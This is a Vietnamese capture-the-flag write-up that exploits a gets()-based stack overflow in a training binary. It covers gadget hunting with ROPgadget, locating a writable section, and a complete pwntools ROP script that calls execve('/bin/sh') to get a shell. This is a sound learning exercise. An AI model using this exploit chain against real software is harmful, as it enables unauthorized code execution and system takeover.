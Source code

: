 **1. TÌm lỗi**

Chạy thử file ta được:

![run.png](photo/run.png)

Dùng lệnh 'file' kiểm tra:

```
bof4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped
```

---> Mở bằng IDA64 ta được:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  char v8[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  printf((unsigned int)"Say something: ", (_DWORD)argv, v3, v4, v5, v6, v8[0]);
  gets(v8);
  return 0;
}
```

Đoạn mã khai báo các biến v3, v4, v5 và v6. Chúng ta không biết với chắc chắn rằng các biến này được sử dụng trong đoạn mã này, vì chúng ta không thấy bất kỳ hoạt động gán nào cho chúng.

Mảng v8 được khai báo với kích thước 80 byte. Đây là một mảng địa phương được lưu trữ trên stack.

Chuỗi "Say something: " được in ra màn hình. Các biến v3, v4, v5, v6 và v8[0] được truyền vào.

Hàm gets được sử dụng để đọc dữ liệu được nhập từ bàn phím và lưu trữ vào mảng v8 -> Có lỗi bof ở đây vì hàm gets không giới hạn số byte nhập vào.

**2. Ý tưởng**

Nhập tràn từ buf đến ret rồi ROP để lấy flag.

**3. Khai thác**

```
   0x00000000004011a7 <+39>:    lea    rax,[rbp-0x50]
   0x00000000004011ab <+43>:    mov    rdi,rax
   0x00000000004011ae <+46>:    mov    eax,0x0
   0x00000000004011b3 <+51>:    call   0x401510 <gets>
```

Ta thấy được biến buf cách rbp 0x50 nên cách ret 0x50 + 0x8. Vậy cần nhập (0x50 + 0x8) byte rác.

![gad.png](photo/gad.png)

Vậy cần kiếm một số gadget về rax, rdi, rsi, rdx. Và truyền địa chỉ ghi vào cho rdi, rsi và rdx bằng 0 và rax = 0x3b

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rax"
0x00000000004043e3 : pop rax ; pop rdx ; add rsp, 0x28 ; ret
0x0000000000401001 : pop rax ; ret
0x0000000000401000 : push rax ; pop rax ; ret
0x00000000004043e0 : sub dword ptr [rdi], 0x78 ; pop rax ; pop rdx ; add rsp, 0x28 ; ret
```

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rdi"
0x000000000040220e : pop rdi ; ret
```

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rsi"
0x000000000040220c : pop rsi ; pop r15 ; ret
0x00000000004015ae : pop rsi ; ret
```

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rdx"
0x00000000004043e2 : js 0x40443c ; pop rdx ; add rsp, 0x28 ; ret
0x00000000004043e3 : pop rax ; pop rdx ; add rsp, 0x28 ; ret
0x00000000004043e4 : pop rdx ; add rsp, 0x28 ; ret
0x00000000004043e0 : sub dword ptr [rdi], 0x78 ; pop rax ; pop rdx ; add rsp, 0x28 ; ret
```

```
0x000000000040132e : syscall
```

Ta tóm tắt lại các thanh ghi như sau:

```
pop_rax = 0x0000000000401001
pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
syscall = 0x000000000040132e
```

Thật may là có đủ thanh ghi cần thiết nhưng khi pop rdx thì cần ghi thêm 0x28 byte rác vì nó không ret ngay. Tiếp theo là kiếm địa chỉ còn trống và thực thi được để ghi vào.

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
          0x401000           0x405000 r-xp     4000   1000 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
          0x405000           0x406000 r--p     1000   5000 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
          0x406000           0x408000 rw-p     2000   5000 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
    0x7ffff7ff9000     0x7ffff7ffd000 r--p     4000      0 [vvar]
    0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000      0 [vdso]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
```

Có ngay khoảng địa chỉ từ 0x406000 -> 0x408000 có thể ghi vào -> Đi kiếm phần còn trống thôi bằng lệnh 'x/100xg 0x406000'. 

Kiếm ngay được địa chỉ là: '0x406bc0'

Vậy tiếp theo sẽ nhập tràn biến buf đến ret và đưa địa chỉ vừa kiếm được vào rdi.

```
payload = b'a'*(0x50 + 0x8)
payload += p64(pop_rdi) + p64(rw_section)
```

Điều hướng quay lại hàm gets để ghi chuỗi '/bin/sh' vào.

```payload += p64(exe.sym['gets'])```

Đặt breakpoint ở ret xem đã chạy đúng ý mình chưa:

![ret.png](photo/ret.png)

Vậy đã pop rdi và gọi tới hàm gets như ý mình muốn.

Tiếp theo sẽ đưa các giá trị cần thiết vào thanh ghi phù hợp để thực thi sys_execve

```
payload += p64(pop_rdi) + p64(rw_section)
payload += p64(pop_rdx) + p64(0)
payload += b'a'*0x28
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
```

Sau khi gửi được các giá trị cần thiết trên thì nhập '/bin/sh' để có thể điều khiển được hệ thống.

Ta có script như sau:

```
from pwn import *

exe = ELF('bof4')
r = process(exe.path)

pop_rax = 0x0000000000401001
pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
syscall = 0x000000000040132e
rw_section = 0x406bc0

payload = b'a'*(0x50 + 0x8)
payload += p64(pop_rdi) + p64(rw_section)
payload += p64(exe.sym['gets'])

payload += p64(pop_rdi) + p64(rw_section)
payload += p64(pop_rdx) + p64(0)
payload += b'a'*0x28
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
#input()
r.sendlineafter(b'Say something: ', payload)
r.sendline(b'/bin/sh')
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
